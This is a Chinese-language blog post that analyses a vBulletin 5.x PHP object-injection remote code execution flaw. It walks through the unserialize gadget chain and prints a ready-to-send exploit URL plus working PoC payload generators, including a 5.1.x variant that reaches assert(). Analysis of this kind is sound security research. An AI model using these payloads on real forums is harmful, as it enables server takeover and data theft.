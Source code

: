 ```yaml
---
layout: post
title: unserialize() 实战之 vBulletin 5.x.x 远程代码执行
tags: [web, php, security]
---
```


vBulletin 的一枚 RCE 利用和简要的分析被曝光，产生漏洞的原因源于 vBulletin 程序在处理 Ajax API 调用的时候，使用 `unserialize()` 对传递的参数值进行了反序列化操作，导致攻击者使用精心构造出的 Payload 直接导致代码执行。关于 PHP 中反序列化漏洞的问题可以参考 OWASP 的[《PHP Object Injection》](https://www.owasp.org/index.php/PHP_Object_Injection)。

使用 [原文](http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq) 提供的 Payload 可以直接在受影响的站点上执行 `phpinfo(1)`：

![](/images/articles/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/1.png)

具体 Payload 的构造过程也文中有所提及，但是笔者在对 vBulletin 5.1.x 版本进行测试的时候，发现原本的 Payload 并不能成功，甚是疑惑。然而在深入分析后，发现在具体利用的时候还需要结合 vBulletin 程序本身的一些代码结构才能得到一个较为通用的 Payload，通过下面的分析后就能够明白。

### 一、反序列化触发点跟踪

虽然此次漏洞 `unserialize()` 函数的触发在曝光的文章中已经描述的很清楚了，并且对整个关键代码的触发流程也进行了说明，但是在深入跟踪和分析时，觉得还是有值得注意和学习的地方。

    http://172.16.96.130/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2a%00db%22%3BO%3A11%3A%22vB_Database%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A7%3A%22phpinfo%22%3B%7D%7Ds%3A12%3A%22%00%2a%00recordset%22%3Bi%3A1%3B%7D

通过观察服务端在处理PHP时的调用栈，可知服务端在处理上述请求时，会将 `ajax/api/hook/decodeArguments` 作为路由参数 `$_REQUEST['routestring']` 传递给地址路由处理过程。因其符合 `ajax/api/[controller]/[method]` 的 Ajax API 请求路由格式，会再调用 `vB5_Frontend_ApplicationLight` 实例中的 `handleAjaxApi()` 函数来进行相应的模块加载并调用处理函数：

```php
protected function handleAjaxApi()
{
	$routeInfo = explode('/', $_REQUEST['routestring']);

	if (count($routeInfo) < 4)
	{
		throw new vB5_Exception_Api('ajax', 'api', array(), 'invalid_request');
	}
	$params = array_merge($_POST, $_GET);
	$this->sendAsJson(Api_InterfaceAbstract::instance(Api_InterfaceAbstract::API_LIGHT)->callApi($routeInfo[2], $routeInfo[3], $params, true));
}
```

请求的 `ajax/api/hook/decodeArguments` 会实例化 `hook` 类然后调用 `decodeArguments()` 函数，原文中所提及的触发点就在此处：

```php
	public function decodeArguments($arguments)
	{
		if ($args = @unserialize($arguments))
		{
			$result = '';
			
			foreach ($args AS $varname => $value)
			{
				$result .= $varname;
```

通过反序列化，我们可以使之能生成在执行环境上下文中已经定义好了的类实例，并通过寻找一个含有 `__wakeup()` 或者 `__destruct()` 魔术方法存在问题的类来进行利用。然后原文中所提到的利用方法并不是这样，其使用的是继承于 PHP 迭代器类型的 `vB_dB_Result` 类，由于 `$args = @unserialize($arguments)` 产生了一个迭代器 `vB_dB_Result` 类实例，因此在后面进行 `foreach` 操作时会首先调用其 `rewind()` 函数。

而在 `rewind()` 函数处理过程中，会根据实例变量状态进行调用：

```php
	public function rewind()
	{
		if ($this->recordset)
		{
			$this->db->free_result($this->recordset);
		}
```

这里就可以通过反序列化来控制 `$this->recordset` 的值，并且 `$this->db->free_result` 最终会调用：

```php
	function free_result($queryresult)
	{
		$this->sql = '';
		return @$this->functions['free_result']($queryresult);
	}
```

`$this->functions['free_result']` 原本的初始化值为 `mysql_free_result`，但是由于反序列化的原因，我们也能控制 `vB_dB_Result` 类实例中的 `db` 成员，更改其对应的 `functions['free_result']` 为我们想要执行的函数，因此一个任意代码执行就产生了。

### 二、利用分析和完善

观察一下原文中提供的 Payload 构造 PoC：

```php
<?php
class vB_Database {
       public $functions = array();
       public function __construct() {
               $this->functions['free_result'] = 'phpinfo';
       }
}

class vB_dB_Result {
       protected $db;
       protected $recordset;
       public function __construct() {
               $this->db = new vB_Database();
               $this->recordset = 1;
       }
}

print urlencode(serialize(new vB_dB_Result())) . "\n";
```

通过第一部分的分析，我们已经清楚了整个漏洞的函数调用过程和原因，并且也已经得知哪些参数可以得到控制和利用。因此这里我们修改 `$this->functions['free_result'] = 'assert';` 和 `$this->recordset = 'var_dump(md5(1))';`，最终远程代码执行的的函数则会是 `assert('var_dump(md5(1))')`：

![](/images/articles/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/2.png)

这个时候其实 RCE 已经非常的顺利了，但是在进行测试的时候却发现了原文所提供的 PoC 只能复现 5.0.x 版本的 vBulletin，而 5.1.x 版本的却不可以。通过本地搭建测试环境，并使用同样的 PoC 去测试，发现在 5.1.x 版本中 `vB_Database` 被定义成了抽象类：

```php
abstract class vB_Database
{
	/**
	 * The type of result set to return from the database for a specific row.
	 */
```

抽象类是不能直接进行实例化的，原文提供的 PoC 却是实例化的 `vB_Database` 类作为 `vB_dB_Result` 迭代器成员 `db` 的值，在服务端进行反序列化时会因为需要恢复实例为抽象类而导致失败：

![](/images/articles/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/3.png)

这就是为什么在 5.1.x 版本上 PoC 会不成功的原因。然后要解决这个问题也很容易，通过跟踪调用栈，发现程序在反序列化未定义类时会调用程序注册的 `autoload()` 方法去动态加载类文件。这里 vBulletin 会依次调用 `includes/vb5/autoloader.php` 中的 `_autoload` 方法和 `core/vb/vb.php` 中的 `autoload()` 方法，成功加载即返回，失败则反序列化失败。所以要想继续使用原有 PoC 的思路来让反序列化后会执行 `$this->db->free_result($this->recordset);` 则需要找到一个继承于 `vB_Database` 抽象类的子类并且其源码文件路径能够在 autoload 过程中得到加载。

通过搜索，发现有如下类继承于 `vB_Database` 抽象类及其源码对应的路径：

![](/images/articles/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/4.png)
    
而终代码进行进行 autoload 的时候会解析传递的类名来动态构造尝试加载的源码文件路径：

```php
...省略
	$fname = str_replace('_', '/', strtolower($class)) . '.php';

	foreach (self::$_paths AS $path)
	{
		if (file_exists($path . $fname))
		{
			include($path . $fname);
			if (class_exists($class, false))
			{
				return true;
			}
```

上面这段代码存在于第一次调用的 `__autoload()` 里，可以看到对提供的类名以 `_` 进行了拆分，动态构造了加载路径（第二次 autoload() 的过程大致相同），简单分析一下就可以发现只有在反序列化 `vB_Database_MySQL` 和 `vB_Database_MySQLi` 这两个基于 `vB_Database` 抽象类的子类时，才能成功的动态加载其类定义所在的源码文件使得反序列化成功执行，最终才能控制参数进行任意代码执行。

所以，针对 5.1.x 版本 vBulletin 的 PoC 就可以得到了，使用 `vB_Database_MySQL` 或者 `vB_Database_MySQLi` 作为迭代器 `vB_dB_Result` 成员 `db` 的值即可。具体 PoC 如下：

```php
<?php
class vB_Database_MySQL {
       public $functions = array();
       public function __construct() {
               $this->functions['free_result'] = 'assert';
       }
}

class vB_dB_Result {
       protected $db;
       protected $recordset;
       public function __construct() {
               $this->db = new vB_Database_MySQL();
               $this->recordset = 'print("This Vuln In 5.1.7")';
       }
}

print urlencode(serialize(new vB_dB_Result())) . "\n";
```

测试一下，成功执行 `assert('print("This Vuln In 5.1.7")')`：

![](/images/articles/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/5.png)

当然了，PoC 不止上面所提供的这一种写法，仅供参考而已。

### 三、小结

此次 vBulletin 5.x.x RCE 漏洞的曝光，从寻找触发点到对象的寻找，再到各种自动加载细节，不得不说是一个很好的 PHP 反序列化漏洞实战实例。不仔细去分析真的不能发现原作者清晰的思路和对程序的熟悉程度。

另外，[Check Point](http://blog.checkpoint.com/) 在其官方博客上也公布了反序列化的另一个利用点，通过反序列化出一个模版对象最终调用 `eval()` 函数进行执行（[原文](http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/)）。

### 参考

* [http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq](http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq)
* [https://www.owasp.org/index.php/PHP_Object_Injection](https://www.owasp.org/index.php/PHP_Object_Injection)
* [http://php.net/manual/en/class.iterator.php](http://php.net/manual/en/class.iterator.php)
* [http://www.php.net/manual/en/function.autoload.php](http://www.php.net/manual/en/function.autoload.php)
* [http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/](http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/)
* [http://www.sebug.net/vuldb/ssvid-89707](http://www.sebug.net/vuldb/ssvid-89707)
